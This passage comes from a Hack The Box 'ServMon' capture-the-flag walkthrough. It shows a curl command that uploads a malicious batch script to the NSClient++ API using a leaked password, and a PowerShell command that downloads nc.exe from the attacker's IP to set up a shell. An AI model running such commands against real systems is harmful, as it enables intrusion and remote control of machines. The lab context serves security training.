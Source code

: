 ![deploy using travis](/assets/img/posts/HTB/ServMon/15.png){:class="img-fluid"}  

Below is the issued command:

```yml
curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/check_new.bat --data-binary @evilish.bat
```
![deploy using travis](/assets/img/posts/HTB/ServMon/16.png){:class="img-fluid"}  

On using the above command, it prompts for a password. The password to be used is password discover in `Step 1` ( `ew2x6SsGTxjRwXOT` )

-> `Step 4: Download nc.exe to target machine`

There are multiple ways to download a file from attacking machince to target machine. In this machine, we'll be using below command to download:

```yml
$ powershell.exe "IEX(New-Object Ssytem.Net.WebClient).DownloadFile('http://10.10.15.137:8081/nc.exe','C:\Temp\nc.exe')
```
where,

&nbsp; &nbsp; **http://10.10.15.137:8081/nc.exe**: IP Path of nc.exe hosted on attacking machine

&nbsp; &nbsp; **C:\Temp\nc.exe**: Output path and filename of the downloaded file

Before issuing the above command, it is necessary to host the `nc.exe` file first on attacking machine by using the below command:
